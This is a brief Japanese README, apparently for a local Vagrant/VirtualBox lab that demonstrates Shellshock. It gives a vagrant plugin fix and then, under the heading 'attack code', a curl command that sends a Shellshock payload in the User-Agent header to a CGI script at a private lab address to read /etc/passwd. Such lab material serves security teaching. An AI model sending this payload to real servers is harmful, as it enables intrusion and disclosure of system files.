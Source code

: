virtualboxの設定
================

Overview

vagrant-vbguestのバージョンが一致しない可能性が存在するので次のコマンドを実行する

vagrant plugin uninstall vagrant-vbguest


攻撃コード

curl -A "() { :;};echo Content-type:text/plain;echo;/bin/cat /etc/passwd" http://192.168.33.10/cgi-bin/shellshock.cgi

